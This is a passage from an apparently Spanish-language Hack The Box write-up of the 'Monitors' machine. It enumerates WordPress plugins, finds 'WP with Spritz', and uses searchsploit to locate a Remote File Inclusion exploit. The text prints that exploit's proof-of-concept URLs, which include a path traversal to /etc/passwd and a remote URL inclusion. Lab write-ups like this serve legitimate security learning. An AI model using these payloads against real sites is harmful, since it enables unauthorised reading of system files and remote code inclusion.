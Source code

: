 `wfuzz` no logro descubrir un plugin valido, pero podemos tratar de acceder a la ruta de los `plugins` y ver si tenemos permiso para lista el directorio.


![](/assets/images/HTB/htb-writeup-Monitors/moni3.PNG)


Como podemos lista el contenido vemos el servicio usa `spritz` como plugin, asi que trataremos de buscar si existe una vulnerabilidad asociada a ello con `searchsploit`.


```bash
❯ searchsploit spritz
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion                                                                                          | php/webapps/44544.php
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Efectivamente tal y como nos reporta existe una vulnerabilidad asociada `Remote File Inclusion`.


Analizando el codigo del `exploit` vemos que aprovecha una ruta para poder lista archivos de la maquina.

```bash
❯ cat 44544.php

1. Version Disclosure

/wp-content/plugins/wp-with-spritz/readme.txt

2. Source Code

if(isset($_GET['url'])){
$content=file_get_contents($_GET['url']);

3. Proof of Concept

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
```
